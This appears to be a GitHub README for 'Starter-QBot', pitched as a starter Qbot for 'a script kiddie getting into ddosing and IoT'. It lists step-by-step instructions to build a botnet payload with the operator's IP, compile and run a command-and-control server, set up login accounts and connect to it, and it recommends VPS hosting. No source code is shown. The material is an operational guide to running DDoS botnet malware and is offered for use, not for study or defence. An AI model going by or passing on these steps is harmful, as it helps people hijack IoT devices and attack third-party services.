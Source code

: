 <h2>Starter-QBot</h2>
<p>This is a starter Qbot for a script kiddie getting into ddosing and IoT.</p>

<div>
  <h2>Requirements</h2><lu>
  <li>A VPS Server (2GB Ram & 2v Cores)
  <li>Centos 6.9 or Debian 9 or above
    </lu>

<div><h2>Tutorial</h2>
<pre><code> _____ _____     _      _____     _   
|     | __  |___| |_   |_   _|_ _| |_ 
|  |  | __ -| . |  _|    | | | | |  _|
|__  _|_____|___|_|      |_| |___|_|  
   |__|                               by D3fe4ted

1. sudo apt install python2 python3 screen gcc nano perl
2. go to client and replace all "IPHERE"'s to your IP
3. python2 cc9.py bot.c (ip)
4. Save your payload
5. gcc cnc.c -o cnc -pthread
6. nano login.txt (username password role mm/dd/yy)
7. screen ./server 89 5 (port)
8. sudo screen ./server 89 1000 (port) (If step 7 doesn't work)
9. Connect you your server via Raw in putty</pre></code>
   <div>

<div>
  <h2>Recommended Hosting</h2><lu>
  <li><a href="https://www.cloudways.com/en/">Cloudways</a>
  <li><a href="https://crazyrdp.com/linux-vps-hosting/">CrazyRDP</a>
    <div>
